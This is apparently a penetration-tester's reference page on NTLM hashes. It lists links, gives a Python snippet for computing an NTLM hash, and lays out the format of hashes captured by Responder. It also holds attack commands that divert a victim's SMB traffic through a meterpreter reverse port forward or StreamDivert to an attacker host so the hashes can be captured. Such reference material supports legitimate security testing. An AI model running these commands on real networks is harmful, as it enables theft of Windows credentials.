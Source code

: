 ```yaml
---
description: NT / LM Hashes
---
```


# NTLM

* [https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/)




## Calculate NTLM

* [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash)

With Python:

```python
>>> import hashlib
>>> hashlib.new('md4', 'Passw0rd!'.encode('utf-16le')).hexdigest()
```




## Responder Capture Structure

* [https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149](https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149)
* [https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2](https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2)
* [https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
* Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-333.

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```

`[SMB] NTLMv2-SSP Hash` capture structure:

```
<Username>:<Domain>:<Server_Challenge>:<LMv2_Response>:<NTv2_Response>
```




## Capture NTLM on Windows

* [https://reqrypt.org/windivert.html](https://reqrypt.org/windivert.html)
* [https://github.com/basil00/Divert](https://github.com/basil00/Divert)
* [https://googleprojectzero.blogspot.com/2021/08/understanding-network-access-windows-app.html](https://googleprojectzero.blogspot.com/2021/08/understanding-network-access-windows-app.html)



### DivertTCPconn

* [https://github.com/Arno0x/DivertTCPconn](https://github.com/Arno0x/DivertTCPconn)

Divert incoming SMB traffic on Victim to Victim's local port 8445, sent it through a reverse-forwarded port (meterpreter session must be elevated) to Attacker's local 445 port and capture the hashes with Responder:

```
$ sudo ./Responder.py -I eth0 -Av
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > execute -f divertTCPconn.exe -a "445 8445"
```



### StreamDivert

* [https://github.com/jellever/StreamDivert](https://github.com/jellever/StreamDivert)

Divert all inbound TCP connections to port 445 (SMB) coming from 192.168.1.11 to 10.10.13.37 port 445:

```
Cmd > powershell -c "Add-Content conf.txt 'tcp < 445 192.168.1.11 -> 10.10.13.37 445'"
Cmd > .\StreamDivert.exe .\conf.txt -f -v
```
